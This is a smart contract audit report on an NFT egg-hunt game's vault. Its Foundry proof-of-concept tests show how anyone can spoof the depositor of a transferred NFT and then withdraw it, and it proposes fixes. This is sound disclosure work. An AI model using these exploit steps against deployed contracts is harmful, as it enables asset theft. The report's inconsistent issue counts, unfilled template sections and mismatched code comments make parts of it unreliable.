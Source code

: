 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>
<div class="full-page">
    <img src="./501stAudits.png" alt="Logo">
    <div>
    <h1> Eggstravaganza Audit Report</h1>
    <h3>Version 0.1</h2>
    <h3>Riiz0</h3>
    <h4>Date: April 8th, 2025</h4>
    </div>
    
</div>

</body>
</html>

<!-- report starts here! -->
# `Eggstravaganza Audit Report`

Prepared by:
- Shawn Rizo

Lead Auditor(s):
- Shawn Rizo

Assisting Auditors:
- None

<div style="page-break-after: always;"></div>

# Table of Contents
- [`<Name> Audit Report`](#name-audit-report)
- [Table of Contents](#table-of-contents)
- [About Shawn Rizo](#about-shawn-rizo)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
- [Protocol Summary](#protocol-summary)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Unauthorized Depositor Spoofing/FrontRunning via Public depositEgg() Function](#h-1-unauthorized-depositor-spoofingfrontrunning-via-public-depositegg-function)
  - [Medium](#medium)
    - [\[M-1\] `<Title>&<What it does>`](#m-1-titlewhat-it-does)
  - [Low](#low)
    - [\[L-1\] `<Title>&<What it does>`](#l-1-titlewhat-it-does)
  - [Informational](#informational)
    - [\[I-1\] `<Title>&<What it does>`](#i-1-titlewhat-it-does)
  - [Gas](#gas)
    - [\[G-1\] `<Title>&<What it does>`](#g-1-titlewhat-it-does)

<div style="page-break-after: always;"></div>


# About Shawn Rizo

I am a seasoned Smart Contract Engineer, adept at utilizing agile methodologies to deliver comprehensive insights and high-level overviews of blockchain projects. Specialized in developing and deploying decentralized applications (DApps) on Ethereum and EVM compatible chains. Expertise in Solidity, and security auditing, leading to a significant reduction in vulnerabilities through the strategic use of Foundry and Security Tools like Slither and Aderyn.

# Disclaimer

The Riiz0 team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

The findings described in this document correspond the following commit hash:
```
f83ed7dff700c4319bdfd0dff796f74db5be4538
```

## Scope 

```
src/
├── EggHuntGame.sol       // Main game contract managing the egg hunt lifecycle and minting process.
├── EggVault.sol          // Vault contract for securely storing deposited Egg NFTs.
└── EggstravaganzaNFT.sol // ERC721-style NFT contract for minting unique Egg NFTs.
```

# Protocol Summary 

EggHuntGame is a gamified NFT experience where participants search for hidden eggs to mint unique Eggstravaganza Egg NFTs. Players engage in an interactive hunt during a designated game period, and successful egg finds can be deposited into a secure Egg Vault.

## Roles

Actors:
    - Game Owner: The deployer/administrator who starts and ends the game, adjusts game parameters, and manages ownership.
    - Player: Participants who call the egg search function, mint Egg NFTs upon successful searches, and may deposit them into the vault.
    - Vault Owner: The owner of the EggVault contract responsible for managing deposited eggs.

# Executive Summary
## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 1                      |
| Medium   | 0                      |
| Low      | 0                      |
| Info     | 0                      |
| Gas      | 0                      |
| Total    | 0                      |

# Findings
## High
### [H-1] Spoofed Depositor via depositEgg() Function

**Summary:** The `EggVault` contract's `depositEgg` function allows any external user to falsely claim authorship of a deposited NFT, introducing a critical logic flaw. While the function verifies that the token has been transferred to the vault, it does not securely associate the depositor with the actual sender, allowing for spoofing and front-running attacks.

**Vulnerability Details:** The vault contract previously relied on a public `depositEgg(uint256 tokenId, address depositor)` function (or a simplified version using `msg.sender`) to track deposits. However, this introduces two core issues:

- **Spoofing**: Anyone can call the function and falsely claim to be the depositor.
- **Front-running**: A malicious actor can observe a legitimate transfer to the vault and front-run the `depositEgg` call to register themselves as the depositor.

The vault assumes that whoever calls `depositEgg` is the rightful depositor, which breaks the integrity of the ownership model and enables unauthorized users to later withdraw NFTs they do not own.

**Impact:**

- An attacker can claim ownership over NFTs they do not own or transfer.
- Legitimate NFT holders may lose withdrawal rights to their own assets.
- This enables asset theft from the vault and undermines trust in the system.

**Proof of Concept:**
```javascript
       function testSpoofedDepositorExploit() public {
        // Mint an egg by simulating a call from the game contract.
        vm.prank(address(game));
        bool success = nft.mintEgg(alice, 1);
        assertTrue(success);
        // Check that token 1 is owned by alice.
        assertEq(nft.ownerOf(1), alice);
        // Verify that the totalSupply counter increments.
        assertEq(nft.totalSupply(), 1);

        //Transger egg to vault
        vm.prank(alice);
        nft.approve(address(vault), 1);
        vm.prank(alice);
        nft.transferFrom(address(alice), address(vault), 1);

        // Deposit the egg into the vault.
        vm.prank(bob);
        vault.depositEgg(1, bob);
        // The egg should now be marked as deposited.
        assertTrue(vault.isEggDeposited(1));
        // The depositor recorded should be alice, but the vault allows for anyone to input depositor
        assertEq(vault.eggDepositors(1), bob);

        // Depositing the same egg again should revert.
        vm.prank(alice);
        vm.expectRevert("Egg already deposited");
        vault.depositEgg(1, alice);
    }
```

```bash
Ran 1 test for test/EggHuntGameTest.t.sol:EggGameTest
[PASS] testSpoofedDepositorExploit() (gas: 176345)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.60ms (896.43µs CPU time)
```

**Recommended Mitigation:** Remove the `depositEgg()` function entirely and instead implement the [ERC721 token receiver interface](https://docs.openzeppelin.com/contracts/5.x/api/token/erc721#IERC721Receiver) using the `onERC721Received` function in the `EggVault` contract.

This enables safe, atomic deposits using `safeTransferFrom`, ensuring that the depositor is always the true sender of the NFT.

```javascript
function onERC721Received(
    address operator,
    address from,
    uint256 tokenId,
    bytes calldata
) external override returns (bytes4) {
    require(msg.sender == address(eggNFT), "Not from expected NFT");
    require(!storedEggs[tokenId], "Egg already deposited");

    storedEggs[tokenId] = true;
    eggDepositors[tokenId] = from;

    emit EggDeposited(from, tokenId);

    return this.onERC721Received.selector;
}
```
Then, users can deposit their NFTs securely via:

```javascript
eggNFT.safeTransferFrom(msg.sender, address(vault), tokenId);
```

This fix:
- Prevents spoofing and frontrunning
- Maintains atomicity between transfer and deposit registration
- Aligns the contract with ERC721 best practices

### [H-2] Front-Running Unauthorized Withdrawals Enabled by Poisoned Depositor Mapping via withdrawEgg() Function

**Summary:** The `EggVault` contract authorizes NFT withdrawals solely based on the `eggDepositors[tokenId]` mapping. However, since this mapping can be poisoned by unauthorized actors (see Finding 1), the withdrawal mechanism becomes insecure. Malicious users can withdraw NFTs they do not own, leading to permanent asset theft.

**Vulnerability Details:** The `withdrawEgg(uint256 tokenId)` function includes this critical check:
```javascript
require(eggDepositors[tokenId] == msg.sender, "Not the original depositor");
```

However, this assumes that the `eggDepositors` mapping was correctly and securely populated during `depositEgg()`. In the current design, attackers can front-run deposits and assign themselves as depositors, bypassing ownership requirements.

As a result:
- Unauthorized users can withdraw NFTs.
- Legitimate depositors (true owners) are blocked from retrieving their assets.
- Vault integrity is compromised by attacker-controlled state.

**Impact:**
* Permanent theft of NFTs stored in the vault.
* Legitimate users are denied withdrawal access to their own assets.
* Breakdown of vault trust guarantees and user safety.

**Proof of Concept:**
```javascript
function testUnauthorizedWithdrawalsExploit() public {
        // Mint an egg by simulating a call from the game contract.
        vm.prank(address(game));
        bool success = nft.mintEgg(alice, 1);
        assertTrue(success);
        // Check that token 1 is owned by alice.
        assertEq(nft.ownerOf(1), alice);
        // Verify that the totalSupply counter increments.
        assertEq(nft.totalSupply(), 1);

        //Transger egg to vault
        vm.prank(alice);
        nft.approve(address(vault), 1);
        vm.prank(alice);
        nft.transferFrom(address(alice), address(vault), 1);

        // Deposit the egg into the vault.
        vm.prank(bob);
        vault.depositEgg(1, bob);
        // The egg should now be marked as deposited.
        assertTrue(vault.isEggDeposited(1));
        // The depositor recorded should be alice, but the vault allows for anyone to input depositor
        assertEq(vault.eggDepositors(1), bob);

        // Depositing the same egg again should revert.
        vm.prank(alice);
        vm.expectRevert("Egg already deposited");
        vault.depositEgg(1, alice);

        // Withdrawal by someone other than the original depositor should revert.
        vm.prank(alice);
        vm.expectRevert("Not the original depositor");
        vault.withdrawEgg(1);

        // Correct withdrawal by the depositor.
        vm.prank(bob);
        vault.withdrawEgg(1);
        // After withdrawal, alice should be the owner again.
        assertEq(nft.ownerOf(1), bob);
        // The stored egg flag should be cleared.
        assertFalse(vault.isEggDeposited(1));
        // And the depositor mapping should be reset to the zero address.
        assertEq(vault.eggDepositors(1), address(0));
    }
```

```bash
Ran 1 test for test/EggHuntGameTest.t.sol:EggGameTest
[PASS] testUnauthorizedWithdrawalsExploit() (gas: 203180)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.38ms (1.64ms CPU time)
```

**Recommended Mitigation:**
Fixing this issue requires securing the deposit process so that the `eggDepositors` mapping cannot be attacker-controlled.

By using `onERC721Received`, you ensure that only the actual NFT sender (from) is registered as the depositor, making the withdrawal check accurate and secure.

```javascript
function onERC721Received(
    address operator,
    address from,
    uint256 tokenId,
    bytes calldata
) external override returns (bytes4) {
    require(msg.sender == address(eggNFT), "Not from expected NFT");
    require(!storedEggs[tokenId], "Egg already deposited");

    storedEggs[tokenId] = true;
    eggDepositors[tokenId] = from;

    emit EggDeposited(from, tokenId);

    return this.onERC721Received.selector;
}
```

With this pattern, withdrawals will always be tied to the real depositor and not to a spoofed or front-running actor.

## Medium
### [M-1] `<Title>&<What it does>`

**Summary:**
**Vulnerability Details:** 
**Impact:**
**Proof of Concept:**
**Recommended Mitigation:**


## Low 
### [L-1] `<Title>&<What it does>`

**Summary:**
**Vulnerability Details:** 
**Impact:**
**Proof of Concept:**
**Recommended Mitigation:**


## Informational
### [I-1] `<Title>&<What it does>`

**Summary:**
**Impact:**
**Recommended Mitigation:**


## Gas 
### [G-1] `<Title>&<What it does>`

**Summary:**
**Impact:**
**Recommended Mitigation:**